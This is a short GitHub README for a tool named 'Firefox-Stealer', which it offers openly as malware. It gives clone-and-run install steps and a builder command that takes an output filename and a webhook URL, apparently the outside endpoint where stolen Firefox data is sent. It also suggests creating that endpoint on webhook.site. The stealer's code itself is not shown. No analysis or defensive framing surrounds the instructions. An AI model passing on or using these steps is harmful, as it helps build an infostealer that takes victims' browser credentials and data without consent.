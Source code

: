 <h1 align="center">
[ Nahid Alam ]
</h1>

<h2 align="center">
Firefox-Stealer
</h2>
<h2 align="center">
<a href="https://github.com/illusiondemon"><img title="Bangladesh" src="https://img.shields.io/badge/MADE%20IN-BANGLADESH-green?colorA=%23ff0000&colorB=%23017e40&style=flat"></a> 
</p><br>

<h2 align="center">
How To Install
</h2>

`
git clone https://github.com/illusiondemon/firefox-stealer.git
`

`
cd firefox-stealer
`

`
chmod +x *
`

<h5 align="center">How To Use<h5>

`
./builder filename https://webhook.com/code
`
<h5 align="center">Create your own webhook url<h5>
 `
https://webhook.site
 
 <h5 align="center">Screen Shot<h5>
<p align="center">
  <img alt="Layout" src="https://user-images.githubusercontent.com/88379378/173880221-842c57d5-b0b3-4f56-8d24-5e94c8fb17ec.png">
</p>
